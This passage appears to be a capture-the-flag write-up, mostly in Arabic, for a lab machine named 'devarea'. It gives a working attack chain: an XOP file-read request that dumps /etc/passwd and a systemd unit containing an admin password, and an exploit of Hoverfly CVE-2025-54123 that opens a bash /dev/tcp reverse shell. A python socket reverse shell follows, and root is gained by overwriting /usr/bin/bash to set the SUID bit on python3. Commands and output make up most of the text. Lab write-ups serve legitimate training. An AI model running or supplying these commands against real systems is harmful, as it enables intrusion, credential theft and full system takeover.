ZDp4OjEwNDoxMDU6Oi9ydW4vdXVpZGQ6L3Vzci9zYmluL25vbG9naW4KdGNwZHVtcDp4OjEwNToxMDc6Oi9ub25leGlzdGVudDovdXNyL3NiaW4vbm9sb2dpbgp0c3M6eDoxMDY6MTA4OlRQTSBzb2Z0d2FyZSBzdGFjaywsLDovdmFyL2xpYi90cG06L2Jpbi9mYWxzZQpsYW5kc2NhcGU6eDoxMDc6MTA5OjovdmFyL2xpYi9sYW5kc2NhcGU6L3Vzci9zYmluL25vbG9naW4KZnd1cGQtcmVmcmVzaDp4Ojk4OTo5ODk6RmlybXdhcmUgdXBkYXRlIGRhZW1vbjovdmFyL2xpYi9md3VwZDovdXNyL3NiaW4vbm9sb2dpbgp1c2JtdXg6eDoxMDg6NDY6dXNibXV4IGRhZW1vbiwsLDovdmFyL2xpYi91c2JtdXg6L3Vzci9zYmluL25vbG9naW4Kc3NoZDp4OjEwOTo2NTUzNDo6L3J1bi9zc2hkOi91c3Ivc2Jpbi9ub2xvZ2luCmRldl9yeWFuOng6MTAwMToxMDAxOjovaG9tZS9kZXZfcnlhbjovYmluL2Jhc2gKZnRwOng6MTEwOjExMTpmdHAgZGFlbW9uLCwsOi9zcnYvZnRwOi91c3Ivc2Jpbi9ub2xvZ2luCnN5c3dhdGNoOng6OTg0Ojk4NDo6L29wdC9zeXN3YXRjaDovdXNyL3NiaW4vbm9sb2dpbgpwb3N0Zml4Ong6MTExOjExMjo6L3Zhci9zcG9vbC9wb3N0Zml4Oi91c3Ivc2Jpbi9ub2xvZ2luCl9sYXVyZWw6eDo5OTk6OTg3OjovdmFyL2xvZy9sYXVyZWw6L2Jpbi9mYWxzZQpkaGNwY2Q6eDoxMDA6NjU1MzQ6REhDUCBDbGllbnQgRGFlbW9uLCwsOi91c3IvbGliL2RoY3BjZDovYmluL2ZhbHNlCg==</return></ns2:submitReportResponse></soap:Body></soap:Envelope>هذا ملف etc/hosts مشفر بصيعغة base64 وقمت بفك تشفيره
echo "cm9vdDp4OjA6MDpyb290Oi9yb290Oi9iaW4vYmFzaApkYWVtb246eDoxOjE6ZGFlbW9uOi91c3Ivc2JpbjovdXNyL3NiaW4vbm9sb2dpbgpiaW46eDoyOjI6YmluOi9iaW46L3Vzci9zYmluL25vbG9naW4Kc3lzOng6MzozOnN5czovZGV2Oi91c3Ivc2Jpbi9ub2xvZ2luCnN5bmM6eDo0OjY1NTM0OnN5bmM6L2JpbjovYmluL3N5bmMKZ2FtZXM6eDo1OjYwOmdhbWVzOi91c3IvZ2FtZXM6L3Vzci9zYmluL25vbG9naW4KbWFuOng6NjoxMjptYW46L3Zhci9jYWNoZS9tYW46L3Vzci9zYmluL25vbG9naW4KbHA6eDo3Ojc6bHA6L3Zhci9zcG9vbC9scGQ6L3Vzci9zYmluL25vbG9naW4KbWFpbDp4Ojg6ODptYWlsOi92YXIvbWFpbDovdXNyL3NiaW4vbm9sb2dpbgpuZXdzOng6OTo5Om5ld3M6L3Zhci9zcG9vbC9uZXdzOi91c3Ivc2Jpbi9ub2xvZ2luCnV1Y3A6eDoxMDoxMDp1dWNwOi92YXIvc3Bvb2wvdXVjcDovdXNyL3NiaW4vbm9sb2dpbgpwcm94eTp4OjEzOjEzOnByb3h5Oi9iaW46L3Vzci9zYmluL25vbG9naW4Kd3d3LWRhdGE6eDozMzozMzp3d3ctZGF0YTovdmFyL3d3dzovdXNyL3NiaW4vbm9sb2dpbgpiYWNrdXA6eDozNDozNDpiYWNrdXA6L3Zhci9iYWNrdXBzOi91c3Ivc2Jpbi9ub2xvZ2luCmxpc3Q6eDozODozODpNYWlsaW5nIExpc3QgTWFuYWdlcjovdmFyL2xpc3Q6L3Vzci9zYmluL25vbG9naW4KaXJjOng6Mzk6Mzk6aXJjZDovcnVuL2lyY2Q6L3Vzci9zYmluL25vbG9naW4KX2FwdDp4OjQyOjY1NTM0Ojovbm9uZXhpc3RlbnQ6L3Vzci9zYmluL25vbG9naW4Kbm9ib2R5Ong6NjU1MzQ6NjU1MzQ6bm9ib2R5Oi9ub25leGlzdGVudDovdXNyL3NiaW4vbm9sb2dpbgpzeXN0ZW1kLW5ldHdvcms6eDo5OTg6OTk4OnN5c3RlbWQgTmV0d29yayBNYW5hZ2VtZW50Oi86L3Vzci9zYmluL25vbG9naW4Kc3lzdGVtZC10aW1lc3luYzp4Ojk5Nzo5OTc6c3lzdGVtZCBUaW1lIFN5bmNocm9uaXphdGlvbjovOi91c3Ivc2Jpbi9ub2xvZ2luCm1lc3NhZ2VidXM6eDoxMDE6MTAyOjovbm9uZXhpc3RlbnQ6L3Vzci9zYmluL25vbG9naW4Kc3lzdGVtZC1yZXNvbHZlOng6OTkyOjk5MjpzeXN0ZW1kIFJlc29sdmVyOi86L3Vzci9zYmluL25vbG9naW4KcG9sbGluYXRlOng6MTAyOjE6Oi92YXIvY2FjaGUvcG9sbGluYXRlOi9iaW4vZmFsc2UKcG9sa2l0ZDp4Ojk5MTo5OTE6VXNlciBmb3IgcG9sa2l0ZDovOi91c3Ivc2Jpbi9ub2xvZ2luCnN5c2xvZzp4OjEwMzoxMDQ6Oi9ub25leGlzdGVudDovdXNyL3NiaW4vbm9sb2dpbgp1dWlkZDp4OjEwNDoxMDU6Oi9ydW4vdXVpZGQ6L3Vzci9zYmluL25vbG9naW4KdGNwZHVtcDp4OjEwNToxMDc6Oi9ub25leGlzdGVudDovdXNyL3NiaW4vbm9sb2dpbgp0c3M6eDoxMDY6MTA4OlRQTSBzb2Z0d2FyZSBzdGFjaywsLDovdmFyL2xpYi90cG06L2Jpbi9mYWxzZQpsYW5kc2NhcGU6eDoxMDc6MTA5OjovdmFyL2xpYi9sYW5kc2NhcGU6L3Vzci9zYmluL25vbG9naW4KZnd1cGQtcmVmcmVzaDp4Ojk4OTo5ODk6RmlybXdhcmUgdXBkYXRlIGRhZW1vbjovdmFyL2xpYi9md3VwZDovdXNyL3NiaW4vbm9sb2dpbgp1c2JtdXg6eDoxMDg6NDY6dXNibXV4IGRhZW1vbiwsLDovdmFyL2xpYi91c2JtdXg6L3Vzci9zYmluL25vbG9naW4Kc3NoZDp4OjEwOTo2NTUzNDo6L3J1bi9zc2hkOi91c3Ivc2Jpbi9ub2xvZ2luCmRldl9yeWFuOng6MTAwMToxMDAxOjovaG9tZS9kZXZfcnlhbjovYmluL2Jhc2gKZnRwOng6MTEwOjExMTpmdHAgZGFlbW9uLCwsOi9zcnYvZnRwOi91c3Ivc2Jpbi9ub2xvZ2luCnN5c3dhdGNoOng6OTg0Ojk4NDo6L29wdC9zeXN3YXRjaDovdXNyL3NiaW4vbm9sb2dpbgpwb3N0Zml4Ong6MTExOjExMjo6L3Zhci9zcG9vbC9wb3N0Zml4Oi91c3Ivc2Jpbi9ub2xvZ2luCl9sYXVyZWw6eDo5OTk6OTg3OjovdmFyL2xvZy9sYXVyZWw6L2Jpbi9mYWxzZQpkaGNwY2Q6eDoxMDA6NjU1MzQ6REhDUCBDbGllbnQgRGFlbW9uLCwsOi91c3IvbGliL2RoY3BjZDovYmluL2ZhbHNlCg==" | base64 -d
# النتيجة ⬇️⬇️ result
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:101:102::/nonexistent:/usr/sbin/nologin
systemd-resolve:x:992:992:systemd Resolver:/:/usr/sbin/nologin
pollinate:x:102:1::/var/cache/pollinate:/bin/false
polkitd:x:991:991:User for polkitd:/:/usr/sbin/nologin
syslog:x:103:104::/nonexistent:/usr/sbin/nologin
uuidd:x:104:105::/run/uuidd:/usr/sbin/nologin
tcpdump:x:105:107::/nonexistent:/usr/sbin/nologin
tss:x:106:108:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:107:109::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:989:989:Firmware update daemon:/var/lib/fwupd:/usr/sbin/nologin
usbmux:x:108:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:109:65534::/run/sshd:/usr/sbin/nologin
dev_ryan:x:1001:1001::/home/dev_ryan:/bin/bash
ftp:x:110:111:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
syswatch:x:984:984::/opt/syswatch:/usr/sbin/nologin
postfix:x:111:112::/var/spool/postfix:/usr/sbin/nologin
_laurel:x:999:987::/var/log/laurel:/bin/false
dhcpcd:x:100:65534:DHCP Client Daemon,,,:/usr/lib/dhcpcd:/bin/falseوقمنا باستخدامه مرة اخرى لقراءة ملف hoverfly.service
curl -s -X POST http://10.129.244.208:8080/employeeservice \
-H "Content-Type: multipart/related; type=\"application/xop+xml\"; boundary=----boundary" \
--data-binary $'------boundary\r\nContent-Type: application/xop+xml; charset=UTF-8; type="text/xml"\r\nContent-ID: <root>\r\n\r\n<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:dev="http://devarea.htb/" xmlns:xop="http://www.w3.org/2004/08/xop/include">\r\n <soapenv:Body>\r\n <dev:submitReport>\r\n <arg0>\r\n <content>\r\n <xop:Include href="file:///etc/systemd/system/hoverfly.service"/>\r\n </content>\r\n </arg0>\r\n </dev:submitReport>\r\n </soapenv:Body>\r\n</soapenv:Envelope>\r\n------boundary--'
<soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"><soap:Body><ns2:submitReportResponse xmlns:ns2="http://devarea.htb/"><return>Report received from null. Department: null. Content: W1VuaXRdCkRlc2NyaXB0aW9uPUhvdmVyRmx5IHNlcnZpY2UKQWZ0ZXI9bmV0d29yay50YXJnZXQKCltTZXJ2aWNlXQpVc2VyPWRldl9yeWFuCkdyb3VwPWRldl9yeWFuCldvcmtpbmdEaXJlY3Rvcnk9L29wdC9Ib3ZlckZseQpFeGVjU3RhcnQ9L29wdC9Ib3ZlckZseS9ob3ZlcmZseSAtYWRkIC11c2VybmFtZSBhZG1pbiAtcGFzc3dvcmQgTzdJSjI3TXl5WGlVIC1saXN0ZW4tb24taG9zdCAwLjAuMC4wCgpSZXN0YXJ0PW9uLWZhaWx1cmUKUmVzdGFydFNlYz01ClN0YXJ0TGltaXRJbnRlcnZhbFNlYz02MApTdGFydExpbWl0QnVyc3Q9NQpMaW1pdE5PRklMRT02NTUzNgpTdGFuZGFyZE91dHB1dD1qb3VybmFsClN0YW5kYXJkRXJyb3I9am91cm5hbAoKW0luc3RhbGxdCldhbnRlZEJ5PW11bHRpLXVzZXIudGFyZ2V0Cg==</return></ns2:submitReportResponse></soap:Body></soap:Envelope>بنفس الطريقة قمنا بفك تشفيره وبالفعل اكتشفنا بداخله اسم مستخدم admin وكلمة مرور O7IJ27MyyXiU
echo "W1VuaXRdCkRlc2NyaXB0aW9uPUhvdmVyRmx5IHNlcnZpY2UKQWZ0ZXI9bmV0d29yay50YXJnZXQKCltTZXJ2aWNlXQpVc2VyPWRldl9yeWFuCkdyb3VwPWRldl9yeWFuCldvcmtpbmdEaXJlY3Rvcnk9L29wdC9Ib3ZlckZseQpFeGVjU3RhcnQ9L29wdC9Ib3ZlckZseS9ob3ZlcmZseSAtYWRkIC11c2VybmFtZSBhZG1pbiAtcGFzc3dvcmQgTzdJSjI3TXl5WGlVIC1saXN0ZW4tb24taG9zdCAwLjAuMC4wCgpSZXN0YXJ0PW9uLWZhaWx1cmUKUmVzdGFydFNlYz01ClN0YXJ0TGltaXRJbnRlcnZhbFNlYz02MApTdGFydExpbWl0QnVyc3Q9NQpMaW1pdE5PRklMRT02NTUzNgpTdGFuZGFyZE91dHB1dD1qb3VybmFsClN0YW5kYXJkRXJyb3I9am91cm5hbAoKW0luc3RhbGxdCldhbnRlZEJ5PW11bHRpLXVzZXIudGFyZ2V0Cg" | base64 -d
[Unit]
Description=HoverFly service
After=network.target
[Service]
User=dev_ryan
Group=dev_ryan
WorkingDirectory=/opt/HoverFly
ExecStart=/opt/HoverFly/hoverfly -add -username admin -password O7IJ27MyyXiU -listen-on-host 0.0.0.0
Restart=on-failure
RestartSec=5
StartLimitIntervalSec=60
StartLimitBurst=5
LimitNOFILE=65536
StandardOutput=journal
StandardError=journal
[Install]
WantedBy=multi-user.targetقمنا بالرجوع الى صفحة تسجيل دخول hoverfly وستخدمنا ال user name وال password الي وجدناهم في hoverfly .service<br>


خد بالك من اصدار ال hoverfly v1.11.3 وهو مصاب بثغرة نجد الاستغلال الخاص بها هنا CVE-2025-54123-Poc https://github.com/kasem545/CVE-2025-54123-Poc/tree/main<br><br>1. شغل Listener : nc -lvnp 4444
2.نفذ الامر التالي :
curl -X PUT "http://10.129.244.208:8888/api/v2/hoverfly/middleware" \
-H "Content-Type: application/json" \
-H "Authorization: Bearer $(curl -s -X POST http://10.129.244.208:8888/api/token-auth -d '{"username":"admin","password":"O7IJ27MyyXiU"}' | jq -r '.token')" \
-d '{
"binary": "/bin/bash",
"script": "bash -i >& /dev/tcp/10.129.244.208/4444 0>&1"
}'و نحصل على reverse shell


we have user flag
Privilege Escalation
sudo -l
Matching Defaults entries for dev_ryan on devarea:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
use_pty
User dev_ryan may run the following commands on devarea:
(root) NOPASSWD: /opt/syswatch/syswatch.sh, !/opt/syswatch/syswatch.sh
web-stop, !/opt/syswatch/syswatch.sh web-restart
dev_ryan@devarea:~$ قبل الخطوة التالية يجب اعداد شيل نظيفة تمام سنقوم باعداد شيل جديدة من نوع .sh بدل ال bash
افتح مستمع جديد عن طريق nc -lvnp 5332 فيي نافذة جديدة <br>ومن داخل الجلسة الحالية قم بتنفيذ هذا الامر كالتالي :
python3 -c 'import socket,os,pty;s=socket.socket();s.connect(("10.10.15.9",5332));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
$ id
uid=1001(dev_ryan) gid=1001(dev_ryan) groups=1001(dev_ryan)
بداخل الجلسة الجديدة قم بتنفيذ سلسة الاوامر التالية :
# Backup the real bash binary
cp /usr/bin/bash /tmp/bash.bak
# Create our payload script
echo '#!/tmp/bash.bak' > /tmp/bash_payload
echo 'chmod u+s /usr/bin/python3' >> /tmp/bash_payload
# Make it executable
chmod +x /tmp/bash_payload
# Verify contents
cat /tmp/bash_payload
# Find all bash processes
ps aux | grep bash | grep -v grepالناتج output
dev_ryan 14383 0.0 0.0 7340 3672 ? S 01:46 0:00 /bin/bash /tmp/hoverfly/hoverfly_3776765057
dev_ryan 14384 0.0 0.1 8544 5520 ? S 01:46 0:00 bash -i# Kill all bash processes
kill -9 14383 14384
# Verify no processes are using /usr/bin/bash
lsof /usr/bin/bash
# (No output = file is free)الجلسةالاولى تم قتلها الان واصبح ملف usr/bin/bash حرا ويمكننا التعديل فيه او استبداله
# Overwrite the system bash binary
cp /tmp/bash_payload /usr/bin/bash
# Verify the replacement
ls -la /usr/bin/bash
cat /usr/bin/bash
-------------------------------------------------------------
Output: ⬇️⬇️⬇️⬇️⬇️
-rwxrwxrwx 1 root root 43 Apr 9 07:21 /usr/bin/bash
#!/tmp/bash.bak
chmod u+s /usr/bin/python3الان نقم بتشغيل الملف الخبيث الذي استبدلناه بملف ال bash الاصلي وسنمتلك جلسة بصلاحيات الروت عندما يقوم البرنامج syswatch.sh باستدعاء الملف الخاص بنا
sudo /opt/syswatch/syswatch.sh web-statusSpawning Root Shell
python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'
id
uid=0(root) gid=1001(dev_ryan) groups=1001(dev_ryan)
نستطيع قراءة root.txt الان
# cat /root/root.txt
